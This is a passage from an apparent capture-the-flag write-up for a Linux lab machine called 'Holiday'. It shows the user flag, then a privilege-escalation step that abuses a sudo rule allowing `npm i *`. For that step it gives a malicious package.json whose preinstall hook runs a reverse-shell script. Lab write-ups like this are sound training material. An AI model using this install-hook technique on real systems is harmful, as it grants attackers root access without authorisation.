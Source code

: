 ![](/Linux/Linux-Hard/Holiday/Screenshots/takeover.png)

you can get user flag here

![](/Linux/Linux-Hard/Holiday/Screenshots/userflag.png)

# Privillage Escalation 

running `sudo -l` show the that you can run the `/usr/bin/npm i *`  

so we create an `index.js` in `/dev/shm` so that when the machine is rebooted it will delete the files from here and a directory in it as `privsec`

```sh
module.exports = "dangerous npm install";
```

next we edit the shell earlier that we got to the box to change it to listen at port `9002` then we create a `payload.json`  so that we can upload a payload

```sh
{
  "name": "rimrafall",
  "version": "1.0.0",
  "description": "Executes a reverse shell",
  "main": "index.js",
  "scripts": {
    "preinstall": "bash ~/app/shell"
  },
  "keywords": [
    "rimraf",
    "rmrf"
  ],
  "author": "João Jerónimo",
  "license": "ISC"
}
```
